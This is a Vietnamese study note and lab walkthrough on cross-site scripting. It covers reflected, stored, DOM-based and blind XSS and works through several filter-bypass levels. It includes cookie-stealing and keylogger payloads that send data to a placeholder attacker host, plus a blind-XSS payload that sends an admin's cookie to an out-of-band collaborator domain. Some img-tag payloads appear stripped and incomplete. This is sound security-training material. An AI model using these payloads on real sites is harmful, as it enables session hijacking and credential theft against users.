# **XSS Introduction**
## **1. Important Terminologies**
- **Document Object Model** (*DOM*): là sự thể hiện có cấu trúc, trực tiếp của trang web trên trình duyệt, nó là 1 cây element (text, tag, attribute) mà JS có thể đọc và thay đổi, nó là "bản thiết kế" được lưu trong bộ nhớ, khi JS cập nhật DOM, trong web sẽ hiển thị cập nhật ngay lập tức
- `URL parameters`: là phần đứng sau dấu `?` trong URL, ví dụ `https://site.com/search?q=hello` thì `q` có giá trị là `hello`, nó được người dùng kiểm soát, nên nó có thể là **untrusted data**
- `JavaScript`: là một ngôn ngữ lập trình để chạy bên trong trình duyệt, XSS payload là một đoạn code nhỏ viết bằng XSS và sau đó tiêm vào tham số; nó có thể đọc và thay đổi DOM, gửi request mạng, truy cập vào cookie nếu không được bảo vệ cẩn thận
- `Cookies`: là một phần dữ liệu được lưu trữ bởi trình duyệt, nếu JS đọc được cookie, attacker có thể thực hiện XSS attack để lấy cookie và cướp phiên. `HttpOnly` là 1 flag để tránh JS đọc được cookie
- `Escaping`: là việc encode những kí tự đặc biệt trong dữ liệu người dùng nhập vào để chúng trở thành văn bản bình thường ngay cả khi nó là **untrusted data**; VD: `<script>` được chuyển thành `&lt;script&gt;`

## **2. XSS payload**
- XSS payload là một đoạn mã JS được attacker truyền vào web mà nó có thể chạy trên trình duyệt của những người dùng khác
- Khi mà một web lấy input của user nhập vào rồi hiển thị nó ra màn hình mà không có bất kì kiểm tra nào, trình duyệt có thể bị truyền XSS payload vào làm 1 phần code của web
- Một khi nó xảy ra, JS sẽ thực thi XSS payload như một phần code hợp lệ trên web



---
- XSS payload thường có 2 phần:
    - **Intention**: đó là những việc mà attacker mong muốn payload làm khi thành công: bằng chứng lỗ hổng, lấy cookie, key log, thực hiện những hành động dưới danh nghĩa của nạn nhân
    - **Modification**: các trang web đều có cách sử lý input khác nhau, thông thường attacker thường phải chỉnh sửa payload cho phù hợp với vị trí đang tấn công

---
### **Testing for XSS**
- Khi test XSS, ta thường kiểm tra bằng 1 payload đơn giản trước để xác nhận lỗ hổng
```javascript
<script>alert('XSS')</script>
```

- Khi web có lỗ hổng XSS, nó sẽ thực thi và hiển thị pop-up lên lên trình duyệt 

---
### **Where Payloads Are Injected**
- Những nơi có thể tiêm mã XSS vào là những nơi nhận input của người dùng và hiển thị lại input đó lên trang:
    - Thanh tìm kiếm
    - Phần bình luận
    - Hồ sơ người dùng
    - Trang feedback
    - URL parameters

---
### **Examples of XSS Intentions**
- Bằng chứng: dùng để xác nhận lỗ hổng
```javascript
<script>alert('XSS')</script>
```

- Session Stealing
```javascript
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```
Hầm `btoa()` dùng để chuyển dữ liệu sang dạng an toàn để truyền

- Key Logger
```javascript
<script>
document.onkeypress = function(e) {
fetch('https://hacker.thm/log?key=' + btoa(e.key));
}
</script>
```

- Business Logic Attacks: ví dụ trang web có hàm `user.changeEmail()` để đổi mật khẩu
```javascript
<script>user.changeEmail('attacker@hacker.thm');</script>
```

## **3. Reflected XSS - Non-Persistent**
- Reflected XSS xảy ra khi một ứng dụng web lấy thông tin đầu vào của người dùng và hiển thị ngay lập tức trên một trang mà không verify nó
- Kẻ tấn công tạo ra một liên kết hoặc biểu mẫu độc hại có chứa JavaScript và thuyết phục nạn nhân nhấp vào nó
- Vì trang web "phản ánh" thông tin đầu vào của kẻ tấn công nên trình duyệt sẽ chạy tập lệnh được chèn vào nguồn gốc của trang web
- Trình kích hoạt điển hình là **hộp tìm kiếm**, **thông báo lỗi** hoặc bất kỳ trang nào lặp lại các tham số từ nội dung `URL` hoặc `POST`



## **4. Stored XSS-Persistent**
- Stored XSS xảy ra khi một ứng dụng lưu dữ liệu đầu vào do kẻ tấn công kiểm soát trên máy chủ (thông thường là trong cơ sở dữ liệu) và sau đó phân phát nội dung đó cho những người dùng khác, khiến tập lệnh được chèn chạy trong trình duyệt của mọi khách truy cập
- Stored XSS có tác động mạnh hơn Reflected XSS vì payload vẫn tồn tại và có thể ảnh hưởng đến nhiều người dùng (*quản trị viên, khách truy cập trang web*) theo thời gian
- Kẻ tấn công có thể tạo tập lệnh trong phần *nhận xét, tiểu sử hồ sơ, tin nhắn* hoặc *bảng chỉ dành cho quản trị viên*; bất cứ khi nào bất cứ ai (*bao gồm cả quản trị viên*) xem trang đó, trình duyệt sẽ thực thi JavaScript được chèn trong bối cảnh web có có lỗ hổng XSS



## **4. DOM-Based XSS-Client Side**
- DOM-Based xảy ra khi JS phía client nhận những dữ liệu từ attacker (`URL`, `location.hash`, `location.search`, `document.referrer`, `localStorage`) rồi truyền vào DOM một cách không an toàn (`innerHTML`, `document.write`, `eval`) 
- Nhưng payload này không chạm tới server, nó chỉ hoạt động trên trình duyệt của nạn nhân, khi này DOM trở thành bề mặt tấn công



## **6. Blind XSS**
- Blind XSS khá là giống với stored XSS bởi vì nó cũng có khả năng lưu trữ mã độc trong cơ sở dữ liệu của web, những trong trường hợp này ta không thấy có phản hổi rõ ràng từ web trả về
- Ví dụ một web có chức năng gửi tin nhắn cho Admin có lỗ hổng XSS, kẻ tấn công có thể lợi dụng chức năng này, gửi tin nhắn cho Admin, khá là giống với "*gài mìn và chờ đợi*", một khi Admin đọc tin nhắn người này, mã độc được JS của nạn nhân thực thi và gửi thông tin về máy chủ của attacker, từ đó có thể thực hiện việc lấy cắp cookie, thậm chí là có thể xem được toàn bộ cấu trúc trang quản trị



---

- Để thực hiển kiểm tra Blind XSS, ta cần chắc chắn rằng phải có HTTP request được gửi đi từ phía nạn nhân, khi đó ta mới biết được mã độc được thực thi hay chưa
- Tool phổ biến nhất để phục vụ tự động hóa quá trình khai thác cookies, URL, nội dung trang web là [XSS Hunter Express](https://github.com/mandatoryprogrammer/xsshunter-express)

---
### **Thực hành**


- Đề cho ta 1 chức năng đó chính là mở ticket để có thể gửi tin nhắn đến cho admin



- Phần tạo ticket có 1 trường là `Subject` và `Content`



- Khi tạo xong thì nó hiện thị lại ticket mà ta đã mở



- Khi nhấn vào ID, ta thấy phần `Subject` và `Content` được hiển thị lại



- Khi mở Devtools để quan sát, ta thấy phần `Subject` được bọc bởi 1 cặp dấu `"`, vậy nên nó đã là 1 chuỗi bình thường và có lẽ là khó đẻ chèn payload cho JS chạy



- Tiếp đến là phần `Content`, ta thấy nó được nằm trong 1 cặp thẻ `<textarea>` 



- Ta thử tạo 1 ticket có nội dung như sau
```text
</textarea>test_content
```
- Mục đích là để input này khi được truyền vào sẽ đóng thẻ `<textarea>` đằng trước



- Kết quả là thực sự đã đóng được thẻ `<textarea>` đằng và dòng `test_content` được đẩy xuống dưới 



- Ta thử tạo 1 payload
```javascript
</textarea><script>alert('XSS')</script>
```

để JS của trình duyệt thực thi đoạn mã popup



- Và khi mở lại ticket, thực sự popup đã được bật lên, điều này cũng xác nhận rằng có tồn tại lỗ hổng XSS

- Tiếp theo ta tạo 1 payload nhằm lấy cookie của người xem (*admin*)
```javascript
</textarea><script>fetch('http://juh8shb7yjr66ucxnxrvgx5uwl2cq5eu.oastify.com?cookie=' + btoa(document.cookie) );</script>
```

- Hàm `fetch` thực hiện truy vấn đến máy chủ của ta và mang theo cookie là giá trị của tham số `cookie`



- Ta có thể thấy được có truy vấn trả về, trong đó có 1 request HTTP mang theo nội dung của cookie được được mang theo dưới dạng `base64`

## **7. Practical**
### **Level 1**


- Đề bài cho ta 1 form nhập tên, khi nhập vào thì hiển thị ra web như ảnh



- Dùng Devtool để quan sát, ta thấy nội dung ở trong 1 cặp thẻ `<h2>`



- Khá đơn giản, ta chỉ cần thêm 1 đoạn code đơn giản vào ô là có thể bật được popup lên 
```javascript
<script>alert(1)</script>
```


----
### **Level 2**


- Ở đây, ta có thể thấy được nội dung nhập vào đã ở trong 1 khung text



- Khi kiểm tra bằng Devtool, ta thấy được input được đưa vào trong 1 ô `<input>`

- Ta thử phá vỡ cấu trúc của ô `<input>` bằng 
payload 
```javascript
test"><script>alert('THM');</script>
```



- Sau khi gửi, ta thấy được popup đã được bật lên và xác nhận rằng có lỗ hổng XSS

---
### **Level 3**


- Ở level này, ta thấy được input được đưa vào trong một cặp thẻ `<textarea>`

- Với ý tưởng tương tự, như task trước, ta phá cấu trúc HTML bằng cách thêm vào input 1 thẻ `</textarea>`
```javascript
test</textarea><script>alert('THM');</script>
```



- Sau đó ta xác nhận được payload đã thành công bằng popup được bật lên

### **Level 4**


- Ở đây ta thấy, trang web được render ra nhờ 1 hàm
```javascript
<script>
    document.getElementsByClassName('name')[0].innerHTML='test';
</script>
```
- Hàm này có chức năng lấy input của người dùng, rồi render thẳng ra những phần tử HTML

- Đây là code JS, nên ta sẽ phải phá cấu trúc của JS, phần này sẽ cần phải tỉ mỉ hơn một chút vì nếu thừa, thiếu syntax, nó sẽ lỗi luôn chứ không như HTML chỉ hiển thị những gì nó cho là đúng, loại bỏ những phần dư thừa

- Câu lệnh ban đầu đang là
`document.getElementsByClassName('name')[0].innerHTML='test';`

- Ta sẽ thêm vào payload `test';alert('xss');\\'`
- Pay load trên sẽ trở thành:
```javascript
document.getElementsByClassName('name')[0].innerHTML='test';alert('xss');\\';
```

- Thay vì chỉ render ra `test`, nó sẽ thực thi cả hàm `alert` mà ta đã thêm vào



### **Level 5**


- Ta thấy được input ta nhập vào được bọc trong thẻ `</h2>`



- Khi dùng payload `test<script>alert('THM');</script></script>`, ta thấy được web đã filter đi chữ `script`, vì vậy nó trở thành 1 văn bản thông thường

- Ta thử encode thẻ `<script>` sang dạng HTML để bypass bộ lọc
```javascript
test</h2>&#x3c;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;alert('THM');;&#x3c;&#x2f;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3e;
```



- Mặc dù web đã decode lại nhưng nó lại được bọc trong cặp dấu `"` nên nó lại trở thành văn bản bình thường và không có tác dụng 
- Ta vẫn còn 1 cách đó chính là dùng thẻ `` kết hợp với attribute `onerror` để trigger lỗi và thực hiện hàm `alert`
```javascript
test'
```



Khi đó, web lại popup, điều đó chính tỏ web không thực hiện filter kí thẻ ``



### **Level 6**


- Đề bài cho phép nhúng địa chỉ ảnh 
- Sau đó nó được truyền vào tham số `src` của thẻ ``
- Với ý tưởng cũ, ta lại phá cấu trúc của thẻ `` bằng payload

```html
x" onerror="alert('THM')">
```


